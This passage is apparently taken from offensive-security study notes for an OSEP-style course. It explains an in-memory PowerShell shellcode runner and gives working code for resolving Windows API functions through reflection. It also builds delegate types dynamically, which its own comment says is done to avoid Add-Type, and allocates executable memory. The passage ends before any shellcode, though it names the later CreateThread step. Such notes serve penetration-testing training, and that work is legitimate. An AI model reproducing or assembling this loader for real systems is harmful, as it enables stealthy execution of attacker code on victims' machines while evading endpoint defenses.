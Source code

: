 

### Reflectively using DelegateType (in Memory)

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1)

What's going on here:

1. `lookupFunc` 👉🏻 to obtain a reference to the `System.dll` assembly's `GetModuleHandle` and `GetProcAddress` methods using `GetType` and `GetMethod` functions (aka the [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique).
2. `getDelegateType` 👉🏻 to define the argument types for the APIs [using a delegate type via Reflection](https://docs.microsoft.com/ru-ru/archive/blogs/joelpob/creating-delegate-types-via-reflection-emit) and return it.
3. `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
4. `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
5. `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
6. `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes.

{% code title="ShellcodeRunnerv2.ps1" %}
```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    # Building a DelegateType (doing it manually to avoid usage of Add-Type)
    ## create a custom assembly and define the module and type inside
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    ## set up the constructor
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## sets up the invoke method
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## invoke the constructor and return the delegation type
    return $type.CreateType()
}

# $VirtualAllocAddr = lookupFunc kernel32.dll VirtualAlloc
# $VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr])
# $VirtualAlloc =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
# $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

```